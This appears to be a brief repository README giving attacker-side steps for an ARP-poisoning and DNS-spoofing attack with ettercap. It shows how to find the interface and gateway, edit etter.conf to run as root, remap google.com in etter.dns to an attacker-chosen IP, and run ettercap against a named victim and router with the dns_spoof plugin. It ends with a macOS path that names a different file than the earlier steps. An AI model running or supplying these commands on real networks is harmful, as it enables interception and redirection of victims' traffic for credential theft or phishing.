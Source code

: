 ## in Attackers side : 
#### Look interface name with `ifconfig` (where ip address is present)
#### Find router IP with `route -n` (under gateway section)

Edit `/etc/ettercap/etter.conf` :
```text
set --> 
ec_uid = 0
ec_gid = 0
and uncomment 4 lines in "linux section"
```


Edit `/etc/ettercap/etter.dns` with :
```text
google.com A (targetIP)
*.google.com A (target IP)
www.google.com PTR (target IP)
```

then run :
```sh
sudo ettercap -T -q -i (interface) -M arp:remote /(Victim)// /(Router)// -P dns_spoof
```


in macos :
`/opt/homebrew/o/ettercap/.bottle/etc/ettercap/ettercap.dns` location
